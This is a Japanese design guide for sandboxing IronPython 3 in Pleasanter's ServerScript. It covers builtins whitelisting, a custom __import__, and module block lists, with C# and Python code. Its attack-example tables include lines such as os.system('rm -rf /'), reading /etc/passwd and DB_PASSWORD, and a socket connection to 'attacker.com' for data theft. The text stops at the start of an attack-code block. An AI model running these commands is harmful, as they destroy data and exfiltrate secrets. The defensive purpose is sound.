






# IronPython 3 サンドボックス実装ガイド

IronPython 3（3.4.x / .NET 8+）における OS レベル操作のブロック手法を調査し、本番環境で使用可能なサンドボックス実装を設計する。

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->

- [調査情報](#調査情報)
- [調査目的](#調査目的)
- [IronPython のアーキテクチャ概要](#ironpython-のアーキテクチャ概要)
    - [サンドボックスの防御レイヤー](#サンドボックスの防御レイヤー)
- [Layer 1: `__builtins__` 制限](#layer-1-builtins-制限)
    - [IronPython における `__builtins__` の仕組み](#ironpython-における-builtins-の仕組み)
    - [ブロックすべき組み込み関数](#ブロックすべき組み込み関数)
    - [許可すべき組み込み関数](#許可すべき組み込み関数)
    - [C# 実装: `__builtins__` 制限](#c-実装-builtins-制限)
    - [注意: `exec` / `eval` のブロックの限界](#注意-exec--eval-のブロックの限界)
- [Layer 2: モジュールインポート制御](#layer-2-モジュールインポート制御)
    - [IronPython のインポートシステム](#ironpython-のインポートシステム)
    - [方式 1: カスタム `__import__` 関数（推奨）](#方式-1-カスタム-import-関数推奨)
    - [方式 2: `PlatformAdaptationLayer` サブクラス化](#方式-2-platformadaptationlayer-サブクラス化)
    - [方式 3: `ScriptRuntime` / `ScriptEngine` オプション](#方式-3-scriptruntime--scriptengine-オプション)
    - [方式 4: `sys.modules` の事前操作](#方式-4-sysmodules-の事前操作)
    - [インポート制御の方式比較](#インポート制御の方式比較)
- [Layer 3: ブロックすべきモジュール一覧](#layer-3-ブロックすべきモジュール一覧)
    - [危険度分類](#危険度分類)
    - [詳細一覧](#詳細一覧)
- [Layer 4: .NET interop ブロック](#layer-4-net-interop-ブロック)
    - [IronPython の .NET interop の脅威](#ironpython-の-net-interop-の脅威)
    - [.NET interop のブロック実装](#net-interop-のブロック実装)
    - [.NET CAS (Code Access Security) について](#net-cas-code-access-security-について)
- [統合実装: SandboxedPythonEngine](#統合実装-sandboxedpythonengine)
    - [使用例](#使用例)
    - [テストケース: サンドボックスの検証](#テストケース-サンドボックスの検証)
- [`clr.AddReference()` のブロック](#clraddreference-のブロック)
    - [問題](#問題)
    - [対策](#対策)
- [`System.Diagnostics.Process.Start()` のブロック](#systemdiagnosticsprocessstart-のブロック)
    - [問題](#問題-1)
    - [対策](#対策-1)
- [`System.IO.File` アクセスのブロック](#systemiofile-アクセスのブロック)
    - [問題](#問題-2)
    - [対策](#対策-2)
- [追加の防御策](#追加の防御策)
    - [1. タイムアウトと組み合わせ](#1-タイムアウトと組み合わせ)
    - [2. メモリ消費の制限](#2-メモリ消費の制限)
    - [3. 属性アクセス制限（`__getattr__` フック）](#3-属性アクセス制限getattr-フック)
- [既知の制限とエスケープリスク](#既知の制限とエスケープリスク)
    - [完全にブロックできるもの](#完全にブロックできるもの)
    - [注意が必要なもの](#注意が必要なもの)
    - [Python の `__subclasses__()` エスケープ](#python-の-subclasses-エスケープ)
- [本番環境向けチェックリスト](#本番環境向けチェックリスト)
- [結論](#結論)
- [関連ドキュメント](#関連ドキュメント)
- [関連リンク](#関連リンク)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## 調査情報

| 調査日        | リポジトリ    | ブランチ | タグ/バージョン    | コミット    | 備考                           |
| ------------- | ------------- | -------- | ------------------ | ----------- | ------------------------------ |
| 2026年2月23日 | IronLanguages | main     | v3.4.1             | -           | IronPython サンドボックス調査  |
| 2026年2月23日 | Pleasanter    | main     | Pleasanter_1.5.1.0 | `34f162a43` | ServerScript Python 対応の前提 |

## 調査目的

- IronPython 3 で OS レベル操作（ファイル I/O、プロセス実行、ネットワーク通信等）を完全にブロックする方法を調査する
- `__builtins__` 制限、モジュールインポート制御、.NET interop ブロックの具体的な実装方法を明らかにする
- ServerScript Python 対応（[007-ServerScript-Python対応.md](007-ServerScript-Python対応.md)）における Phase 2 サンドボックス実装の技術基盤を確立する

---

## IronPython のアーキテクチャ概要

IronPython は **DLR（Dynamic Language Runtime）** の上に構築された Python 実装である。サンドボックスを理解するために、アーキテクチャの全体像を把握する。



### サンドボックスの防御レイヤー

サンドボックスは**多層防御（Defense in Depth）** で構成する。単一の防御では抜け道が生じるため、複数のレイヤーを組み合わせる。



| レイヤー | 防御対象                               | 実装方法                                  |
| -------- | -------------------------------------- | ----------------------------------------- |
| Layer 1  | 危険な組み込み関数                     | `__builtins__` の差し替え                 |
| Layer 2  | 危険なモジュールのインポート           | カスタム `__import__` / ホワイトリスト    |
| Layer 3  | ファイルシステムアクセス               | `PlatformAdaptationLayer` のサブクラス化  |
| Layer 4  | .NET アセンブリ / クラスへの直アクセス | `clr` モジュール制限 / ScriptRuntime 設定 |

---

## Layer 1: `__builtins__` 制限

### IronPython における `__builtins__` の仕組み

IronPython では `__builtins__` は `IronPython.Modules.Builtin` クラスに対応する Python モジュールオブジェクトである。CPython と同じく、`__builtins__` をカスタム辞書に差し替えることで危険な組み込み関数を削除できる。

### ブロックすべき組み込み関数

| 関数         | 危険性                                         | ブロック必須 |
| ------------ | ---------------------------------------------- | :----------: |
| `__import__` | 任意のモジュールインポート（Layer 2 と連携）   |     Yes      |
| `exec`       | 任意のコード実行（文字列からコード生成）       |     Yes      |
| `eval`       | 任意の式評価（文字列からコード生成）           |     Yes      |
| `compile`    | コードオブジェクト生成（exec/eval のバイパス） |     Yes      |
| `open`       | ファイル I/O                                   |     Yes      |
| `exit`       | プロセス終了                                   |     Yes      |
| `quit`       | プロセス終了                                   |     Yes      |
| `globals`    | グローバルスコープへのアクセス（制限回避）     |     Yes      |
| `locals`     | ローカルスコープの辞書取得（制限回避）         |     推奨     |
| `vars`       | オブジェクトの `__dict__` アクセス             |     推奨     |
| `dir`        | オブジェクトの属性一覧（偵察用）               |     任意     |
| `getattr`    | 属性への動的アクセス（制限回避の可能性）       |     推奨     |
| `setattr`    | 属性への動的設定                               |     推奨     |
| `delattr`    | 属性の動的削除                                 |     推奨     |
| `type`       | メタクラス操作（型の動的生成）                 |     推奨     |
| `breakpoint` | デバッガ起動                                   |     Yes      |
| `input`      | 標準入力の読み取り（ブロッキング）             |     Yes      |
| `print`      | 標準出力への書き込み                           |     任意     |
| `help`       | ヘルプシステム起動（pydoc 経由の情報漏洩）     |     Yes      |

### 許可すべき組み込み関数

安全な組み込み関数のホワイトリスト:

```python
# 許可する builtins
ALLOWED_BUILTINS = [
    # 型変換
    "int", "float", "str", "bool", "bytes", "bytearray",
    "complex", "list", "tuple", "dict", "set", "frozenset",
    # 数値操作
    "abs", "round", "pow", "divmod", "min", "max", "sum",
    # イテレーション
    "range", "len", "enumerate", "zip", "map", "filter",
    "sorted", "reversed", "iter", "next", "all", "any",
    # 文字列・フォーマット
    "chr", "ord", "repr", "format", "ascii", "hex", "oct", "bin",
    # オブジェクト操作（安全なもの）
    "isinstance", "issubclass", "id", "hash", "callable",
    "hasattr",
    # その他
    "staticmethod", "classmethod", "property", "super",
    "object", "slice",
    "ValueError", "TypeError", "KeyError", "IndexError",
    "AttributeError", "RuntimeError", "StopIteration",
    "Exception", "ArithmeticError", "LookupError",
    "NotImplementedError", "ZeroDivisionError",
    "OverflowError",
    "True", "False", "None",
]
```

### C# 実装: `__builtins__` 制限

```csharp
using IronPython.Hosting;
using IronPython.Runtime;
using Microsoft.Scripting.Hosting;
using System;
using System.Collections.Generic;

public static class BuiltinsRestrictor
{
    /// <summary>
    /// 安全な builtins のみを含む辞書を構築し、スコープに適用する。
    /// </summary>
    public static void RestrictBuiltins(ScriptEngine engine, ScriptScope scope)
    {
        // 許可する builtins のホワイトリスト
        var allowedBuiltins = new HashSet<string>
        {
            // 型変換
            "int", "float", "str", "bool", "bytes", "bytearray",
            "complex", "list", "tuple", "dict", "set", "frozenset",
            // 数値操作
            "abs", "round", "pow", "divmod", "min", "max", "sum",
            // イテレーション
            "range", "len", "enumerate", "zip", "map", "filter",
            "sorted", "reversed", "iter", "next", "all", "any",
            // 文字列・フォーマット
            "chr", "ord", "repr", "format", "ascii", "hex", "oct", "bin",
            // オブジェクト操作（安全）
            "isinstance", "issubclass", "id", "hash", "callable",
            "hasattr",
            // クラス関連
            "staticmethod", "classmethod", "property", "super", "object",
            "slice",
            // 例外クラス
            "ValueError", "TypeError", "KeyError", "IndexError",
            "AttributeError", "RuntimeError", "StopIteration",
            "Exception", "ArithmeticError", "LookupError",
            "NotImplementedError", "ZeroDivisionError",
            "OverflowError", "TimeoutError",
            // 定数
            "True", "False", "None",
        };

        // 現在の __builtins__ モジュールからホワイトリストの関数のみ抽出する
        var builtinsModule = engine.GetBuiltinModule();
        var safeBuiltins = new PythonDictionary();

        foreach (var name in allowedBuiltins)
        {
            if (builtinsModule.TryGetVariable(name, out dynamic value))
            {
                safeBuiltins[name] = value;
            }
        }

        // カスタム __import__ を設定（Layer 2 で詳述）
        // safeBuiltins["__import__"] = new CustomImportFunction(...);

        // スコープの __builtins__ を安全な辞書に差し替え
        scope.SetVariable("__builtins__", safeBuiltins);
    }
}
```

### 注意: `exec` / `eval` のブロックの限界

IronPython では `exec` と `eval` は**ステートメント/式**としてコンパイラレベルで処理される場合がある。`__builtins__` から `exec` / `eval` を削除しても、以下の記法はコンパイラが直接処理するため完全にはブロックできない可能性がある。

```python
# __builtins__ からの exec 削除で防げるケース
exec("os.system('rm -rf /')")      # NameError: exec is not defined

# コンパイラが直接処理する可能性があるケース（IronPython のバージョンによる）
# IronPython 3.4 では exec は関数として扱われるため、builtins 削除で防止可能
```

IronPython 3（Python 3 互換）では `exec` は**関数**であり、ステートメントではないため、
`__builtins__` からの削除で効果的にブロックできる。
Python 2 時代の `exec` ステートメント問題は IronPython 3 では解消されている。

---

## Layer 2: モジュールインポート制御

### IronPython のインポートシステム

IronPython のモジュールインポートは以下の経路で動作する:



### 方式 1: カスタム `__import__` 関数（推奨）

最も効果的かつ柔軟な方式。Python の `__import__` 関数をカスタム実装に差し替え、ホワイトリストに無いモジュールのインポートを拒否する。

```csharp
using IronPython.Hosting;
using IronPython.Runtime;
using Microsoft.Scripting.Hosting;
using System;
using System.Collections.Generic;

public class SandboxedImportFunction
{
    private static readonly HashSet<string> AllowedModules = new(StringComparer.Ordinal)
    {
        // 安全な標準ライブラリ
        "json",
        "math",
        "cmath",
        "datetime",
        "re",
        "collections",
        "collections.abc",
        "itertools",
        "functools",
        "string",
        "decimal",
        "fractions",
        "numbers",
        "operator",
        "copy",
        "enum",
        "typing",
        "abc",
        "dataclasses",
        "textwrap",
        "unicodedata",
        "base64",
        "hashlib",    // ハッシュ生成のみ（ファイル I/O なし）
        "hmac",
        "uuid",
        "random",
        "statistics",
        "bisect",
        "heapq",
        "array",
        "struct",
        "calendar",
        "time",       // time.time(), time.sleep() のみ — 要検討
        "zoneinfo",
        "pprint",
    };

    /// <summary>
    /// ホワイトリスト検証付き __import__ 関数。
    /// IronPython のスコープに注入する。
    /// </summary>
    public static object SafeImport(
        CodeContext context,
        string moduleName,
        PythonDictionary globals = null,
        PythonDictionary locals = null,
        PythonList fromlist = null,
        int level = 0)
    {
        // トップレベルモジュール名を抽出
        // "collections.abc" → "collections"
        var topLevelModule = moduleName.Contains('.')
            ? moduleName[..moduleName.IndexOf('.')]
            : moduleName;

        // ホワイトリストチェック（フルパスとトップレベル両方）
        if (!AllowedModules.Contains(moduleName)
            && !AllowedModules.Contains(topLevelModule))
        {
            throw new ImportException(
                $"Module '{moduleName}' is not allowed in sandboxed environment.");
        }

        // 許可されたモジュールは IronPython の標準インポートに委譲
        return IronPython.Modules.Builtin.__import__(
            context, moduleName, globals, locals, fromlist, level);
    }
}

/// <summary>
/// サンドボックス環境でのインポートエラー
/// </summary>
public class ImportException : Exception
{
    public ImportException(string message) : base(message) { }
}
```

#### カスタム `__import__` の登録方法

```csharp
public static void RegisterSafeImport(ScriptEngine engine, ScriptScope scope)
{
    // 方法 1: __builtins__ 辞書に直接設定
    var safeBuiltins = (PythonDictionary)scope.GetVariable("__builtins__");
    safeBuiltins["__import__"] = new Func<CodeContext, string,
        PythonDictionary, PythonDictionary, PythonList, int, object>(
        SandboxedImportFunction.SafeImport);

    // 方法 2: Python コードで __import__ をオーバーライド
    engine.Execute(@"
import builtins
_original_import = builtins.__import__

def _safe_import(name, globals=None, locals=None, fromlist=(), level=0):
    allowed = {
        'json', 'math', 'datetime', 're', 'collections',
        'itertools', 'functools', 'string', 'decimal',
        'copy', 'enum', 'typing', 'abc', 'random',
        'uuid', 'base64', 'hashlib', 'hmac', 'calendar',
        'operator', 'numbers', 'fractions', 'statistics',
        'textwrap', 'bisect', 'heapq', 'pprint',
    }
    top_level = name.split('.')[0]
    if name not in allowed and top_level not in allowed:
        raise ImportError(f""Module '{name}' is not allowed"")
    return _original_import(name, globals, locals, fromlist, level)

builtins.__import__ = _safe_import
", scope);
}
```

### 方式 2: `PlatformAdaptationLayer` サブクラス化

`PlatformAdaptationLayer`（PAL）は IronPython がファイルシステムにアクセスする際の抽象化レイヤーである。これをサブクラス化することで、ファイルの読み込み（`.py` モジュールのロード含む）を制御できる。

```csharp
using Microsoft.Scripting;
using System;
using System.IO;

/// <summary>
/// ファイルシステムアクセスを完全にブロックする PlatformAdaptationLayer。
/// IronPython の標準ライブラリモジュール（*.py）のロードも防止される。
/// </summary>
public class SandboxPlatformAdaptationLayer : PlatformAdaptationLayer
{
    public override bool FileExists(string path) => false;

    public override bool DirectoryExists(string path) => false;

    public override Stream OpenInputFileStream(string path)
    {
        throw new UnauthorizedAccessException(
            $"File access is not allowed in sandboxed environment: {path}");
    }

    public override Stream OpenInputFileStream(
        string path, FileMode mode, FileAccess access, FileShare share)
    {
        throw new UnauthorizedAccessException(
            $"File access is not allowed in sandboxed environment: {path}");
    }

    public override Stream OpenInputFileStream(
        string path, FileMode mode, FileAccess access,
        FileShare share, int bufferSize)
    {
        throw new UnauthorizedAccessException(
            $"File access is not allowed in sandboxed environment: {path}");
    }

    public override Stream OpenOutputFileStream(string path)
    {
        throw new UnauthorizedAccessException(
            $"File write is not allowed in sandboxed environment: {path}");
    }

    public override string[] GetFileSystemEntries(
        string path, string searchPattern,
        bool includeFiles, bool includeDirectories)
    {
        return Array.Empty<string>();
    }

    public override string GetFullPath(string path)
    {
        // パス正規化は許可するが、実際のファイルアクセスはブロック
        return path;
    }

    public override bool IsAbsolutePath(string path)
    {
        return Path.IsPathRooted(path);
    }
}
```

#### PAL の設定方法

```csharp
using Microsoft.Scripting.Hosting;

public static ScriptEngine CreateSandboxedEngine()
{
    // カスタム PAL を使用した ScriptRuntimeSetup を構成
    var setup = new ScriptRuntimeSetup();
    setup.LanguageSetups.Add(
        IronPython.Hosting.Python.CreateLanguageSetup(null));

    // カスタム PAL を適用
    // ※ ScriptRuntimeSetup.HostType に PAL をラップした
    //   カスタム ScriptHost を指定する
    var runtime = new ScriptRuntime(setup);
    var engine = runtime.GetEngine("IronPython");

    return engine;
}
```

#### PAL とカスタム `__import__` の組み合わせ

PAL だけでは**ビルトインモジュール**（C# で実装されたモジュール、例: `os`）のインポートはブロックできない。ビルトインモジュールはファイルシステムを経由せずに直接ロードされるためである。



**結論**: PAL は「ファイルベースのモジュール」のブロックには有効だが、`os`、`sys` 等の**ビルトインモジュール**には効果がない。必ずカスタム `__import__`（Layer 2）と組み合わせること。

### 方式 3: `ScriptRuntime` / `ScriptEngine` オプション

IronPython の `CreateEngine()` に渡すオプション辞書で一部の制御が可能。

```csharp
var options = new Dictionary<string, object>
{
    // デバッグモード（本番では false）
    ["Debug"] = false,

    // 最適化レベル
    ["OptimizationLevel"] = 2,

    // フレーム情報の有無（デバッグ用、false でパフォーマンス向上）
    ["Frames"] = false,
    ["FullFrames"] = false,

    // LightweightScopes（スコープの軽量化）
    ["LightweightScopes"] = true,
};

var engine = Python.CreateEngine(options);
```

> **重要**: IronPython 3.4.x の `CreateEngine` オプションには直接的なサンドボックス機能（モジュールホワイトリスト等）は存在しない。サンドボックスはアプリケーションレベルで実装する必要がある。

### 方式 4: `sys.modules` の事前操作

`sys.modules` にダミーモジュールを事前登録することで、危険なモジュールのインポートを無効化する方法。

```csharp
public static void PoisonDangerousModules(ScriptEngine engine, ScriptScope scope)
{
    // 危険なモジュールを None で上書き
    // import 時に sys.modules が最初にチェックされるため、
    // None が返され ImportError になる
    var poisonScript = @"
import sys

_blocked_modules = [
    'os', 'subprocess', 'socket', 'ctypes', 'importlib',
    'shutil', 'signal', 'multiprocessing', 'threading', '_thread',
    'io', 'pathlib', 'tempfile', 'glob', 'webbrowser',
    'http', 'urllib', 'ftplib', 'smtplib', 'poplib', 'imaplib',
    'xml', 'pickle', 'shelve', 'dbm', 'sqlite3',
    'zipfile', 'tarfile', 'gzip', 'bz2', 'lzma',
    'os.path', 'posixpath', 'ntpath',
    'subprocess', 'asyncio',
    '_io', '_socket', '_ssl',
    'nt', 'posix',  # OS 固有のビルトインモジュール
]

for mod in _blocked_modules:
    sys.modules[mod] = None
";
    engine.Execute(poisonScript, scope);
}
```

> **制約**: `sys.modules` 操作だけでは不十分。スクリプトが `del sys.modules['os']` で削除してからインポートを試みることで回避できる。`sys` モジュール自体へのアクセスも制限する必要がある。

### インポート制御の方式比較

| 方式                      | ビルトイン防止 | ファイルモジュール防止 | 回避困難性 | 実装容易性 |
| ------------------------- | :------------: | :--------------------: | :--------: | :--------: |
| カスタム `__import__`     |       ◎        |           ◎            |     ◎      |     ◎      |
| `PlatformAdaptationLayer` |       ×        |           ◎            |     ◎      |     ○      |
| `ScriptEngine` オプション |       ×        |           ×            |     -      |     ◎      |
| `sys.modules` 操作        |       ○        |           ○            |     △      |     ◎      |

**推奨**: カスタム `__import__` を主軸とし、PAL と `sys.modules` 操作を補助的に組み合わせる。

---

## Layer 3: ブロックすべきモジュール一覧

### 危険度分類



### 詳細一覧

#### Critical（必須ブロック）

| モジュール   | 危険な操作                                                                            | 攻撃例                                                      |
| ------------ | ------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `os`         | `os.system()`, `os.popen()`, `os.exec*()`, `os.spawn*()`, `os.remove()`, `os.environ` | `os.system("rm -rf /")` / `os.environ["DB_PASSWORD"]`       |
| `subprocess` | `Popen()`, `run()`, `call()`, `check_output()`                                        | `subprocess.run(["cmd", "/c", "net user"])` プロセス実行    |
| `sys`        | `sys.exit()`, `sys.modules` 操作, `sys.path` 操作                                     | `sys.exit(0)` でプロセス終了 / インポート制限の回避         |
| `ctypes`     | ネイティブコード実行、任意の DLL ロード                                               | `ctypes.windll.kernel32.CreateProcessW(...)` ネイティブ実行 |
| `socket`     | TCP/UDP ソケット通信                                                                  | `socket.socket().connect(("attacker.com", 80))` データ窃取  |
| `importlib`  | 動的インポート、`__import__` 制限のバイパス                                           | `importlib.import_module("os")` でホワイトリスト回避        |
| `shutil`     | ファイルコピー、ディレクトリツリー操作、アーカイブ                                    | `shutil.rmtree("/")` ファイルシステム破壊                   |
| `io`         | ファイル I/O、バッファ操作                                                            | `io.open("/etc/passwd", "r")` ファイル読み取り              |

#### High（強く推奨）

| モジュール        | 危険な操作                       | 攻撃例                                              |
| ----------------- | -------------------------------- | --------------------------------------------------- |
| `multiprocessing` | プロセス生成、共有メモリ         | `Process(target=malicious_func).start()`            |
| `threading`       | スレッド生成（リソース枯渇）     | 無限スレッド生成による DoS                          |
| `_thread`         | 低レベルスレッド操作             | `_thread.start_new_thread(func, ())` でスレッド生成 |
| `signal`          | シグナルハンドラ操作             | `signal.alarm(0)` / シグナル送信                    |
| `tempfile`        | 一時ファイル/ディレクトリ作成    | ディスク枯渇攻撃                                    |
| `pathlib`         | ファイルシステムパス操作         | `Path("/etc/passwd").read_text()` ファイル読み取り  |
| `glob`            | ファイルシステムスキャン         | `glob.glob("/home/*/.ssh/*")` 秘密鍵探索            |
| `pickle`          | 任意コード実行（デシリアライズ） | `pickle.loads(malicious_data)` でコード実行         |
| `shelve`          | ファイルベースの永続化           | pickle ベースのためコード実行リスク                 |
| `dbm`             | データベースファイルアクセス     | ファイルシステムへの書き込み                        |
| `sqlite3`         | データベースアクセス             | `sqlite3.connect(":memory:")` は安全だが制限推奨    |

#### Medium（推奨）

| モジュール   | 危険な操作                 | 攻撃例                                            |
| ------------ | -------------------------- | ------------------------------------------------- |
| `http`       | HTTP サーバー/クライアント | `http.server.HTTPServer(...)` サーバー起動        |
| `urllib`     | URL アクセス               | `urllib.request.urlopen("http://...")` データ送信 |
| `webbrowser` | ブラウザ起動               | `webbrowser.open("http://malicious.com")`         |
| `ftplib`     | FTP 接続                   | ファイル転送                                      |
| `smtplib`    | SMTP メール送信            | スパム送信                                        |
| `poplib`     | POP3 メール受信            | メール窃取                                        |
| `imaplib`    | IMAP メール接続            | メール窃取                                        |
| `xml`        | XML パース（XXE 攻撃）     | `xml.etree.ElementTree` で外部エンティティ展開    |
| `zipfile`    | ZIP アーカイブ操作         | Zip Bomb / ファイルシステムアクセス               |
| `tarfile`    | TAR アーカイブ操作         | パストラバーサル攻撃                              |
| `gzip`       | gzip 圧縮/展開             | ファイルシステムアクセス                          |
| `bz2`        | bzip2 圧縮/展開            | ファイルシステムアクセス                          |
| `lzma`       | LZMA 圧縮/展開             | ファイルシステムアクセス                          |

#### IronPython 固有の追加ブロック対象

| モジュール  | 危険な操作                 | 攻撃例                                                |
| ----------- | -------------------------- | ----------------------------------------------------- |
| `clr`       | .NET アセンブリ参照追加    | `clr.AddReference("System")` で .NET クラスにアクセス |
| `nt`        | Windows 固有の OS 操作     | IronPython 内部の Windows ビルトイン                  |
| `posix`     | POSIX 固有の OS 操作       | IronPython 内部の Linux ビルトイン                    |
| `_io`       | 低レベル I/O               | `io` モジュールの C 実装バックエンド                  |
| `_socket`   | 低レベルソケット           | `socket` モジュールの C 実装バックエンド              |
| `_ssl`      | SSL/TLS                    | ネットワーク暗号化                                    |
| `_thread`   | 低レベルスレッド           | `threading` の下位実装                                |
| `System`    | .NET `System` 名前空間全体 | `from System.IO import File` でファイルアクセス       |
| `Microsoft` | .NET `Microsoft` 名前空間  | .NET 内部 API へのアクセス                            |

---

## Layer 4: .NET interop ブロック

### IronPython の .NET interop の脅威

IronPython の最大のセキュリティリスクは **.NET interop** である。Python 標準ライブラリのブロックだけでは不十分で、.NET クラスへの直接アクセスを防ぐ必要がある。

#### 攻撃パス一覧



#### 具体的な攻撃コード例

```python
# 攻撃パス 1: プロセス実行
import clr
